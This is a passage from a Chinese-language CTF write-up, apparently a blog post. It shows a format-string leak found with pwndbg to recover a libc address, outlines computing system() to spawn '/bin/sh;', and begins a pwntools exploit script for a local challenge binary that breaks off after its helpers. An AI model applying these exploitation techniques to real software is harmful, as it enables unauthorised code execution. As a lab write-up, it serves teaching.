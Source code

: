 根据栈布局，我们可以找到`0x7ffe3a3d1758`这个位置是`printf+153`的位置，我们使用`fmtarg 0x7ffe3a3d1758`来计算一下偏移（不然就6+12-1)也行

```sh
pwndbg> fmtarg 0x7ffe3a3d1758
The index of format argument : 18 ("\%17$p")
```

这样，`printf+153`的地址就出来了

![image-20220712222931911](https://cdn.novanoir.moe/img/image-20220712222931911.png)

接下来就是常规了，`libc_database`找`libc`版本然后计算`libc_base`，计算`system_addr`，构造`/bin/sh;`

> 注意的是这里构造的是`/bin/sh;`而不是`/bin/sh\x00`，具体原因我也不清楚，好像是因为`system()`不止执行`/bin/sh`所以不能截断



完整exp:

```python
from typing import Literal, Optional, AnyStr
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process(['./pwn'])


def menu(index: Literal[1, 2, 3]):
    sh.recvuntil(b"3.quit")
    if index == 1:
        sh.sendline(b"create string")
        return
    if index == 2:
        sh.sendline(b"delete string")
        return
    if index == 3:
        sh.sendline(b"quit string")


def create(length_: int, content: AnyStr):
    menu(1)
    sh.sendlineafter(b"Pls give string size:", str(length_).encode())
    content = content if isinstance(content, bytes) else str(content).encode()
    content = content.ljust(length_, b'\x00')
    sh.sendlineafter(b"str:", content)


def delete(index: int, extra: Optional[AnyStr] = b''):
    menu(2)
    sh.sendlineafter(b"id:", str(index).encode())
    if isinstance(extra, str):
        extra = extra.encode()
    sh.sendlineafter(b"Are you sure?:", b"yes" + extra)


def quit_():
    menu(3)


def gdb_(time_: Optional[int] = None, arg: Optional[str] = None):
    gdb.attach(sh, arg)
    pause(time_)


create(4, b'aa')  # 0
```